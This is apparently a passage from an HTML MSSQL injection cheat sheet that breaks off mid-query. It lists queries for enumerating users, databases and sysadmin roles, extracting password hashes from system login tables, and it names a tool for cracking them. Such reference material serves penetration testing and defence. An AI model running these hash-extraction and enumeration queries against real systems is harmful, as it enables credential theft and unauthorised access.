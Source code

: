     </tr>
    <tr>
      <td style="text-align:left">Current User</td>
      <td style="text-align:left">
        <p>SELECT user_name();</p>
        <p>SELECT system_user;</p>
        <p>SELECT user;</p>
        <p>SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">List Users</td>
      <td style="text-align:left">SELECT name FROM master..syslogins</td>
    </tr>
    <tr>
      <td style="text-align:left">List Password Hashes</td>
      <td style="text-align:left">
        <p>SELECT name, password FROM master..sysxlogins -- priv, mssql 2000;</p>
        <p>SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins
          -- priv, mssql 2000. Need to convert to hex to return hashes in MSSQL error
          message / some version of query analyzer.</p>
        <p>SELECT name, password_hash FROM master.sys.sql_logins -- priv, mssql 2005;</p>
        <p>SELECT name + &apos;-&apos; + master.sys.fn_varbintohexstr(password_hash)
          from master.sys.sql_logins -- priv, mssql 2005</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Password Cracker</td>
      <td style="text-align:left">MSSQL 2000 and 2005 Hashes are both SHA1-based.&#x202F;<a href="https://labs.portcullis.co.uk/application/phrasen-drescher/">phrasen|drescher</a>&#x202F;can
        crack these.</td>
    </tr>
    <tr>
      <td style="text-align:left">List Privileges</td>
      <td style="text-align:left">Impossible?</td>
    </tr>
    <tr>
      <td style="text-align:left">List DBA Accounts</td>
      <td style="text-align:left">
        <p>TODO</p>
        <p>SELECT is_srvrolemember(&apos;sysadmin&apos;); --priv</p>
        <p>-- is your account a sysadmin? returns 1 for true, 0 for false, NULL for
          invalid role. Also try &apos;bulkadmin&apos;, &apos;systemadmin&apos; and
          other values from the&#x202F;<a href="http://msdn.microsoft.com/en-us/library/ms176015.aspx">documentation</a>SELECT
          is_srvrolemember(&apos;sysadmin&apos;, &apos;sa&apos;); -- is sa a sysadmin?
          return 1 for true, 0 for false, NULL for invalid role/username.</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Current Database</td>
      <td style="text-align:left">SELECT DB_NAME()</td>
    </tr>
    <tr>
      <td style="text-align:left">List Databases</td>
      <td style="text-align:left">
        <p>SELECT name FROM master..sysdatabases;</p>
        <p>SELECT DB_NAME(N); -- for N = 0, 1, 2, ...</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">List Columns</td>
      <td style="text-align:left">
        <p>SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE